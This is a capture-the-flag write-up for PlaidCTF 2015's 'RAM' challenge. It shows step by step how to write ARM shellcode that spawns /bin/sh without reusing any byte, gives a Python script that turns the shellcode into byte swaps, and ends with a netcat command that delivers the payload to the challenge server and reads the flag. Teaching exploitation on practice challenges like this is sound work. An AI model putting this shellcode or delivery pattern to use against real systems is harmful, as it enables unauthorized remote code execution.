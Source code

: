 # PlaidCTF CTF 2015: RAM

**Category:** Pwnable
**Points:** 170
**Solves:** 31
**Description:**

> Hree is a ctue lttile selhlcdoe 
> [challenge](http://play.plaidctf.com/files/permute_33e624400463108ac96b45bc6158fa54.py) ([old version](http://play.plaidctf.com/files/permute_30b51ae3e1ce42cf57462073236b3a85.py)).
> 
> Server: 52.4.108.221 port 4444
> 
> 
> Team	Points	Submission
> fuzzi3	176	18 hours ago
> gallopsled	173	17 hours ago
> Tracer Tea	171	17 hours ago

## Write-up

by [geoff-addepar](https://github.com/geoff-addepar)

First, let's break down what the supplied python file does. Here is the first relevant section:

```python
buf = map(chr, range(256))

while 1:
    a,b = map(ord, sys.stdin.read(2))
    if a == b:
        break
    buf[a], buf[b] = buf[b], buf[a]
```

The first line creates a buffer containing '\x00\x01\x02 ... \xFF'. The next loop reads pairs of bytes from the input, and swaps arbitrary bytes in the buffer based on the user input. Since stdin is user-controlled, this lets us create any arbitrary permutation of the bytes from 0 to 255.

The next section of the file creates an executable file, writes an ELF header, dumps the permuted buffer into the ELF file, and executes it. There's one little thing to make things interesting:

```python
elf += pack('<HHI', 2, 0x28, 1) # type=exec, machine=ARM, version=1
```

That's right, we're going to be writing ARM machine code. At this point the solution is obvious, all we have to do is come up with some ARM machine instructions that get a shell, with the additional constraint that it has to be some permutation on the bytes from 0 to 255. Or, equivalently, we need ARM shellcode that never uses the same byte twice.

To solve this problem you'll need to grab an ARM toolchain and a userspace emulator to run the code locally.

```
sudo apt-get install qemu-user libc6-armel-cross libc6-dev-armel-cross binutils-arm-linux-gnueabi gcc-arm-linux-gnueabi
```

Let's start with some basic code to exec a shell on ARM, and then see what modifications we need to make in order to do it without ever reusing the same byte.

```
.text
.globl _start
_start:
    mov %r7, $11
    ldr %r0, =msg
    mov %r1, $0
    mov %r2, $0
    svc 0
msg:
    .asciz "/bin/sh"
```

Build and test, then objdump the result to see what our machine code looks like.

```
arm-linux-gnueabi-gcc -o arm.exe -nostartfiles -static arm.S
qemu-arm arm.exe
$ <we have a shell> exit
arm-linux-gnueabi-objdump -d arm.exe
```
```
00008098 <_start>:
    8098:	e3a0700b 	mov	r7, #11
    809c:	e59f0010 	ldr	r0, [pc, #16]	; 80b4 <msg+0x8>
    80a0:	e3a01000 	mov	r1, #0
    80a4:	e3a02000 	mov	r2, #0
    80a8:	ef000000 	svc	0x00000000

000080ac <msg>:
    80ac:	6e69622f 	.word	0x6e69622f
    80b0:	0068732f 	.word	0x0068732f
    80b4:	000080ac 	.word	0x000080ac
```

The most obviously reused byte in there is 0, and we can immediately see that there is going to be a problem with the `svc` instruction, which has 3 of them. But this is all assuming we use the EABI; searching around the internet shows that there is an older, obsolete syscall API, which puts the syscall number in the svc instruction. The older ABI also does not use r7, so we can get rid of the first instruction. We can also replace `mov` instructions with math instructions that do the same thing, and a bit of experimentation showed that r2 was already 0, and we don't need to overwrite it.

```
00008098 <_start>:
    8098:	e59f000c 	ldr	r0, [pc, #12]	; 80ac <msg+0x8>
    809c:	e0231003 	eor	r1, r3, r3
    80a0:	ef90000b 	svc	0x0090000b

000080a4 <msg>:
    80a4:	6e69622f 	.word	0x6e69622f
    80a8:	0068732f 	.word	0x0068732f
    80ac:	000080a4 	.word	0x000080a4

```

The next major obstacle is the '/' in '/bin/sh'. We need two slashes in the filename, which means we can't send the exact filename bytes as part of the input. The code also cannot self-modify, which means we have to transfer the filename to the stack somehow. We also need to generate the trailing 0 byte because we already used one in the `svc` instruction.

Here is a cut at copying '/bin/sh' to the stack:

```
00008098 <_start>:
    8098:	e0231003 	eor	r1, r3, r3
    809c:	e28f5018 	add	r5, pc, #24
    80a0:	e8150180 	ldmda	r5, {r7, r8}
    80a4:	e24d0008 	sub	r0, sp, #8
    80a8:	e2888001 	add	r8, r8, #1
    80ac:	e9200180 	stmdb	r0!, {r7, r8}
    80b0:	e5c01007 	strb	r1, [r0, #7]
    80b4:	ef90000b 	svc	0x0090000b

000080b8 <msg>:
    80b8:	6e69622f 	.word	0x6e69622f
    80bc:	7968732e 	.word	0x7968732e

```
That introduced another zero byte, which we can weed out by simply offsetting further up the stack. We can also eliminate duplication between the low bytes of the `ldmda` and the `stmdb` by using different registers and loading/storing dummy registers at the end.

The next thing to deal with is the common `e2` prefix on many of the instructions. That instruction byte contains a condition code field, which allows for conditional execution. What we can do is choose condition codes that are always true so that the instructions get executed. If we change the `eor` to an `eors`, then the 'Z' flag will always be set, so the `le` and `ls` conditions will always be true.

The last thing is the `10` in the `strb` instruction. The 1 comes from r1, which just needs to be any register containing a zero. We can use r2 or r3 instead, because they are initialized to zero by the loader.

```
00008098 <_start>:
    8098:	e0331003 	eors	r1, r3, r3
    809c:	928f501c 	addls	r5, pc, #28
    80a0:	e8151270 	ldmda	r5, {r4, r5, r6, r9, ip}
    80a4:	d24d0f41 	suble	r0, sp, #260	; 0x104
    80a8:	e2898001 	add	r8, r9, #1
    80ac:	e9204340 	stmdb	r0!, {r6, r8, r9, lr}
    80b0:	e5c03007 	strb	r3, [r0, #7]
    80b4:	ef90000b 	svc	0x0090000b

000080b8 <msg>:
    80b8:	6e69622f 	.word	0x6e69622f
    80bc:	7968732e 	.word	0x7968732e
```

Now we have code to get a shell, and it never uses the same byte twice. To turn this into a sequence of swaps that will generate the correct permutation, we can use a small python script:

```python
buf = map(chr, range(256))

f = open("arm.exe", "r")
binary = f.read()[0x98:0xc0]  # use a hex dump of the ELF file to find the offset of the code
f.close()

f = open("permutation.bin", "w")

for i in range(len(binary)):
  ch = binary[i]
  found = False
  for swap in range(i, 256):
    if buf[swap] == ch:
      found = True
      if i != swap:
        print "swapping", i, swap, ord(ch), hex(ord(ch))
        f.write(chr(i))
        f.write(chr(swap))
        buf[i], buf[swap] = buf[swap], buf[i]
  if not found:
    print "could not find character", ord(ch), hex(ord(ch))
    exit(1)

f.write(chr(0))
f.write(chr(0))
f.close()
```

Now we have a file containing the correct permutation. Send it to the server, but keep standard input connected to the terminal, so we can run commands in the shell we created.

```
$ cat permutation.bin - | nc 52.4.108.221 4444
ls
flag.txt
permute.py
submit
cat flag.txt
flag{shellcode_with_the_colors_of_the_rainbow_db43044f}
```

## Other write-ups and resources

* <https://neg9.org/news/2015/4/26/plaidctf-2015-ram-pwnable-170-writeup> 
